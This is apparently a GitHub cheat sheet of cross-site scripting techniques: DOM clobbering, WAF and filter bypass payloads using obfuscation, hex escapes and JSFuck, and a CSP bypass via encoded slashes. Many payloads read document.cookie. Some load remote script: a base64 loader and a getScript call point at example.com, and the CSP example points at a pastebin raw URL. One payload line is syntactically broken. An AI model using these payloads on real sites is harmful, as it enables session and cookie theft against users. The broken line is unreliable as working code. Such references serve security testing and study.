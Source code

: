 # XSS

## Summary

- [Awesome Cheat Sheets](#awesome-cheat-sheets)
- [Awesome Tools](#awesome-tools)
- [DOM Based XSS](#dom-based-xss)
    - [DOM Clobbering](#dom-clobbering)
- [Bypass](#bypass)
    - [Filter](#filter)
        - [Bypass using JS-Alpha](#bypass-using-js-alpha)
        - [Bypass using JS global variables](#bypass-using-js-global-variables)
        - [Bypass using JSFuck](#bypass-using-jsfuck)
        - [Bypass using a little known JS comment style](#bypass-using-a-little-known-js-comment-style)
    - [CSP](#csp)
        - [Bypass using encode '/' by @SecurityMB](#bypass-using-encode--by-securitymbhttpstwittercomsecuritymbstatus1162690916722839552)

## Awesome Cheat Sheets

- [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [PortSwigger XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Awesome Tools

- [XSS'OR - Hack with Javascript](http://xssor.io/#ende) - swisskey for payload editing

## DOM Based XSS

Useful references:
- [Introduction to the DOM](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model/Introduction),
- [DOM Tree](https://developer.mozilla.org/en-US/docs/Web/API/Document_object_model/Using_the_W3C_DOM_Level_1_Core),
- [Window](https://developer.mozilla.org/en-US/docs/Web/API/Window).

### DOM Clobbering

DOM Clobbering allows defining certain variables in the window’s context. For example, an HTML element 
```html
<p id="CONFIG"></p>
```
 creates a reference to itself under a `window.CONFIG` variable if and only if there were no other variables declared 
 with the same name.

References:
- [Clobbering the clobbered — Advanced DOM Clobbering](https://medium.com/@terjanq/dom-clobbering-techniques-8443547ebe94)

## Bypass

### Filter

#### Bypass using JS-Alpha

[JS-Alpha](https://github.com/terjanq/JS-Alpha) converts any javascript code into a code that only consists of 
 `/[a-z().]/` characters. Example:

```
with(escape())with(eval.bind)eval(unescape(match().concat(strike().big().link().length).concat(escape(escape.name.length).concat(escape(...call.name))).concat(escape(escape(link())).length).concat(link().blink().link().length).concat(link().link().strike().length).concat(name.link().length).concat(big().big().length).concat(link().length).concat(link().length).concat(strike().big().length).concat(fixed().big().length).join(unescape(...escape(this)))))
```

The generated code should work on all platforms. It uses only standardized functions.

#### Bypass using JS global variables

Global variable example:

```js
window["document"]["cookie"]
```

Call `alert` from `window` example:

```js
window["alert"](window["document"]["cookie"]);
self[/*foo*/"alert"](self[document"/*bar*/]["cookie"]);
```

Techniques to bypass WAF rules:

```js
// Concatenation sequences
self["ale"+"rt"](self["doc"+"ument"]["coo"+"kie"]);

// Hex escape sequences
// alert(document.cookie)
self["\x61\x6c\x65\x72\x74"](
    self["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]
        ["\x63\x6f\x6f\x6b\x69\x65"]
);

// Eval and Base64 encoded strings
self["\x65\x76\x61\x6c"](
  self["\x61\x74\x6f\x62"](
    "dmFyIGhlYWQgPSBkb2N1bWVudC5nZXRFbGVtZW50\
    c0J5VGFnTmFtZSgnaGVhZCcpLml0ZW0oMCk7dmFyI\
    HNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbn\
    QoJ3NjcmlwdCcpO3NjcmlwdC5zZXRBdHRyaWJ1dGU\
    oJ3R5cGUnLCAndGV4dC9qYXZhc2NyaXB0Jyk7c2Ny\
    aXB0LnNldEF0dHJpYnV0ZSgnc3JjJywgJ2h0dHA6L\
    y9leGFtcGxlLmNvbS9teS5qcycpO2hlYWQuYXBwZW\
    5kQ2hpbGQoc2NyaXB0KTs="
  )
);

// jQuery
self["$"]["globalEval"]("alert(1)");
self["\x24"]["\x67\x6c\x6f\x62\x61\x6c\x45\x76\x61\x6c"]("\x61\x6c\x65\x72\x74\x28\x31\x29");
// getScript loads a JavaScript file from the server using a GET HTTP request, then execute it.
self["$"]["getScript"]("https://example.com/my.js");

// Iteration and Object.keys
Object.keys(self)[5]; // "alert"
self[Object.keys(self)[5]]("foo"); // alert("foo")

```

##### References

- [Bypass XSS filters using JavaScript global variables](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/amp/?__twitter_impression=true)

#### Bypass using JSFuck

[JSFuck](http://www.jsfuck.com/) is an esoteric and educational programming style based on the atomic parts of JS.
 It uses only six different characters to write and execute code. But the payload is very long. You can reduce the 
 payload using the methods described in the article [Bypass Uppercase filters like a PRO (XSS Advanced Methods)](https://medium.com/@Master_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce).

#### Bypass using a little known JS comment style

A little known JS comment style [SingleLineHTMLOpenComment](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-SingleLineHTMLOpenComment)
 and [HTMLCloseComment](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-HTMLCloseComment)
 in ECMA specification. The following is valid JS comment syntax:

```js
-->valid_comment_style
```

##### References

- [HITCON CTF 2019 - Bounty Pl33z Task](https://github.com/orangetw/My-CTF-Web-Challenges#bounty-pl33z)
- [HITCON CTF 2019 - Bounty Pl33z Writeup by balsn](https://balsn.tw/ctf_writeup/20191012-hitconctfquals/#bounty-pl33z)
- [Challenge in Cure53 XSS wiki (the idea for the Bounty Pl33z)](https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml#level-8)

### CSP

#### Bypass using encode '/' by [@SecurityMB](https://twitter.com/SecurityMB/status/1162690916722839552)

If CSP policy points to a dir and you use `%2f` to encode `'/'`, it is still considered to be inside the dir. All browsers
 seem to agree on that. This leads to a possible bypass, by using `'%2f..%2f'` if server decodes it, example:

```html
<meta http-equiv=Content-Security-Policy content="script-src pastebin.com/XYZ/">
<!-- this will execute -->
<script src="https://pastebin.com/XYZ%2f..%2fraw/b0Rajxqk"></script>
```
